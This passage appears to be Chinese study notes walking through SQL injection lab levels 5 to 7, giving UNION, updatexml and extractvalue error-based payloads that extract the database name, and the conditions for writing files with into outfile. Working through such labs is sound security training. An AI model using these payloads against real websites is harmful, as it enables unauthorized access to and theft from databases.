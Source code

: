 payload：`?id=-1") union select 1,2,database() -- s`

##### 第5关

类型：字符型+报错注入

报错函数：updatexml、extractvalue

构造闭合符号：单引号`'`

payload1：

```sql
?id=1' and updatexml('1',concat("~~",(database())),'9') -- s
注意：
①在concat函数中，我们的查询语句应用括号括在一起  (database())
```

payload2：

```sql
?id=1' and extractvalue('1',concat("~~",(database()))) -- s
```

##### 第6关

类型：字符型+报错注入

报错函数：updatexml、extractvalue

构造闭合符号：双引号`"`

payload1：

```sql
?id=1" and extractvalue('1',concat("~~",(database()))) -- s
```

payload2:

```sql
?id=1" and updatexml('1',concat("~~",(database())),'9') -- s
```

##### 第7关(不常见)

类型：字符型+into outfile

```textile
into outfile 语句用于把表数据导出到一个文本文件中 
条件：
1)要有file_priv权限

2)知道网站绝对路径

3)要能用union

4)对web目录有写权限

5)没有过滤单引号 
```
